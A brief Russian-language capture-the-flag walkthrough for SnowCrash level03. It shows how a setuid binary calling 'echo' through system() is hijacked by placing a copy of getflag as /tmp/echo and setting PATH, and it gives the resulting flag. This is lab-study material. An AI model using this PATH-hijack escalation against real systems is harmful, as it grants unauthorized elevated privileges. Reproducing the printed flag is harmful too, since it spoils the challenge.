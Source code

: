     ls -la

Так так, какой то странный исполняемый файл level03, надо запускать

    level03@SnowCrash:~$ ./level03
    Exploit me

Посмотрим что в нем есть:

    cat level03
    
    strings level03

Много мусора, посмотрим что есть интересного

    usr/bin/env echo Exploit me;

Судя по всему там есть вызов system()

    ls -la
    
    -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
   
Судя по всему, запуская этот файл мы повышаем права до создателя этого файла

Похоже то что нам нужно??? Попробуем подменить echo на getflag.  Прописываем следующую команду, чтобы узнать где лежит исполняемый файл getflag

    which getflag

    /bin/getflag
    
Скопируем в tmp и назовем файл echo  

    cp /bin/getflag /tmp/echo
   
    PATH=/tmp
    
    ./level03
    
Получаем заветный флаг
    
    qi0maab88jeaj46qoumi7maus
